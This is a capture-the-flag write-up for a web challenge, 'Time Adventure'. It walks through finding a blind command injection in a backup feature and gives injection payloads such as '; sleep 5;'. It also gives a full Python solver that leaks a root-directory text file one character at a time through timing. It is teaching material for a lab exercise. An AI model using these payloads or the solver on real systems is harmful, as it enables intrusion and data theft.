

# [WEB] Time Adventure

---


### 10th March 2024

**Author**: `kahang`

**Difficulty**: `Medium`

**Flag**: `FIA{t1m3_1s_4n_1llus10n}`

### Description

> *It's Adventure Time... Don't forget to back up your file.*
> 

### Objective

> Identifying and exploiting Blind Command Injection Vulnerabilities in the web application.
> 
### Skills Required
- Basic Web Fundamental & Exploitation
- Basic Linux Command
- Basic Python Programming
---

# Solution

## Information Gathering

- First, we need to know what this web does and what features does it have.


- So there is a function that executes a Linux command `zip` to package the whole directory `/var/www/html` into `/tmp` with a custom file name to the backend server.
- Next, view the Source of the website and see a suspicious comment.
- Press `Ctrl + U` or `Right Click → View page source`.
    
    
    

```html
<!-- Admin Note: I have saved a secret credential in a super secret text file located in the "/" folder. Please make sure to check it out. -->
```

- With this information, we can guess that there’s a text file `.txt` in **`/`** (Root Directory) that might contain interesting data with an unknown name.

## Identify Vulnerability

- Try to inject some basic **Command Injection** payload. For example `; whoami ;`


- As we can see the web says that this command has been executed but there is no actual information from the server display back so we can’t know whether was it executed or not.
- Let’s verify it by sending a delay command to see if the backend server interpreting it. With the payload is `; sleep 5;`


- We have noticed that after executing the command, a loading GIF appears with a 5-second delay as if the command were set to `sleep 5`.


- This can be concluded as a Blind Command Injection or Time-based Command Injection.

## Crafting Payload

- By using `cat` with wild card `*` , we can read all the files within a directory without the need of knowing the file name and the `cut`command is used for taking each character one by one.


- Adding a little if-else statement so that we can check if the character taken out matches or not.


## Solver

- We could use the *Side Channel Attack* technique to extract data. The main idea is to "manipulate time" and grep data with the `sleep`command character-by-character from the backend.


- Here is the whole script:

```python
import requests 
import time
url = "https://timeadventure.fiahackingisfun.id.vn/"
charset = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()-_+=~`[]{}|:;\"'<>,.?/"
flag = ""
# Payload: Checks if the character matches
payload = "; if [ \"$(cat /*.txt|cut -c{})\" = \"{}\" ]; then sleep 2; fi;"
while True:
    for char in charset:
        query_payload = payload.format(len(flag)+1, char)
        data = {"command": "backup", "target": query_payload}
        start_time = time.time()  # Starts recording the time
        # Sending Request
        res = requests.post(url, data=data)
        end_time = time.time()  # Stops recording the time
        real_time = end_time - start_time
        # If the entire request and response time > 2, then append the character
        if real_time > 2:
            flag += char
            break
    print(flag)
```

## Bonus

- As in the script above, I’ve used the whole characters set in ASCII format. The total amount of the set is 93 characters `ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()-_+=~`[]{}|:;\"'<>,.?/` . In the worst case, we must have to brute force or send total requests to the web application 93 times for each character, and for the whole string “FIA{t1m3_1s_4n_1llus10n}” contains 24 characters, it’s gonna be `24 * 93 = 2304` possibilities.
- This kinda takes time and not efficiency, therefore we can convert to Hexadecimal or even Binary to decrease the amount of guessing each character. When converted to Hexadecimal, the length of the character now becomes 48 but the range of Hex is only 16 `(0 → F)`. Therefore, the total possibilities now are `48 * 16 = 768`.


- For the most optimization, we could convert it to Binary. From now on, the whole length of the string that we need to brute force is 192 characters and the possibility of each character is only 2 because Binary is `0 and 1`. Therefore, the possibility for guessing this string is `192 * 2 = 384`.

